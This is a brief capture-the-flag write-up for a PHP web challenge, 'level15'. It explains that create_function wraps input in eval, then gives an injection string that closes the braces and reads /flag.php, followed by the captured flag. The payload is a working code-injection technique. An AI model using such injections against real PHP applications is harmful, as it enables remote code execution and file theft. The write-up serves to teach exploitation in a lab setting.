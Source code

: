 ```yaml
---
layout: default
title: level15
---
```


Here we exploit `RCE`. we can see it uses the function `create_function`, however, here [create function manual](https://www.php.net/manual/en/function.create-function.php) we can see it using `eval`, and thus considers unsecure...

That's how it works, how it creates our function:
```php
eval('function() { YOUR_STRING_HERE }');
```

So, let's inject some code that'll break the `{}`, and then execute our code :)
```php
} echo htmlspecialchars(file_get_contents('/flag.php')); {
```
*Notice we need to use `htmlspecialchars`, without this function, it won't show us the flag!*


**Flag:** ***`WEBSEC{HHVM_was_right_about_not_implementing_eval}`*** 

